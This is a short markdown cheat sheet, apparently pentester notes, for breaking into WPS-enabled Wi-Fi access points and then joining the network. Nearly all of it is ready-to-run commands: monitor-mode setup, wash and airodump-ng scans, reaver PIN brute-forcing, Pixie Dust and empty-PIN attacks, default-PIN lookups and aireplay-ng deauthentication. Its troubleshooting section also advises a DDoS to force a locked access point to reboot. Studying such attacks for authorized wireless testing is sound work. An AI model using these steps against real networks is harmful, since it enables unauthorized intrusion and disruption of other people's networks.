 ### Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Scan for AP's with WPS enabled:
```bash
wash -i wlan0mon

# Also scan for 5 GHz
wash -i wlan0mon -5 

# Airodump approach
sudo airodump-ng --wps
sudo airodump-ng --wps --band abg
```


### Attack

Reaver:
```bash
sudo reaver -b <BSSID> -i wlan0mon -v
```
>[!info]
>Add `-c` parameter if the "Waiting for beacon" message appears

PixieWPS attack:
```bash
sudo reaver -b <BSSID> -i wlan0mon -v -K

# Empty pin
sudo reaver -b <BSSID> -i wlan0mon -v -p '' 
```

Known pin attacks:
```bash
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db

# Check using first 3 bytes of BSSID (must be uppercase)
echo ${PINDB["0013F7"]}
```

Deauthentication:
```bash
sudo aireplay-ng --fakeauth 30 -a <BSSID> -h <Own MAC> wlan0mon
```
>[!info]
>Sometimes only deauthenticating once is better: `-0 1`


### Troubleshooting

When using PixieWPS attack:
```bash
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
>[!Fix]
>Restart reaver without PixieWPS option and restore previous session

ACK issues:
```bash
[+] Sending identity response
[+] Received identity request
```
>[!Fix]
>Use another card with a different chipset

WPS Lock:
>[!Fix]
>Perform DDoS to reboot AP


### Connect to the network

Start the NetworkManager service:
```bash
sudo service NetworkManager start
```

Set the interface up:
```bash
sudo ifconfig wlan1 up
```

Create the configuration file to connect to the network: `connect.config`
```bash
network={
  ssid="<ESSID>"
  scan_ssid=1
  psk="<PASSWORD>"
  key_mgmt=WPA-PSK
}
```

Use the configuration file to connect to the network:
```bash
sudo wpa_supplicant -i wlan1 -c connect.config
```

Obtain DHCP address:
```bash
sudo dhclient wlan1
```
